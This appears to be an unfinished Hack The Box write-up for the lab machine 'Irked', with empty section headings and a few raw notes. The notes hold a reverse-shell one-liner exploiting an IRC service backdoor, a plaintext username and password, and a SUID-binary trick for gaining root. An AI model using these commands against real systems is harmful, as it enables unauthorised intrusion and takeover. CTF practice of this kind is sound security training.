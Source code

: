 Name & IP Address of Machine:
> IRKED : `10.10.10.117`
<!-- TOC -->

- [Synopsis](#synopsis)
- [Enumeration](#enumeration)
- [FootHold](#foothold)
- [Lateral Movement](#lateral-movement)
- [Privilege Escalation](#privilege-escalation)

<!-- /TOC -->


`echo 'AB; bash -c "bash -i >& /dev/tcp/10.10.14.25/9010 0>&1"' | nc irked.htb 8067`

`djmardov:Kab6h+m+bbp2J:HG`

-viewuser has suid bit enabled. running the binary shows that it needs /tmp/listuser to run.
- `cp /bin/bash /tmp/listuser` got us root.



## Synopsis


## Enumeration
Opened Ports: 
- [ ] .



## FootHold

## Lateral Movement

## Privilege Escalation




<!-- ## Thank You 
🕉️  -->


<!-- ## Tools Used.
- [ ] . -->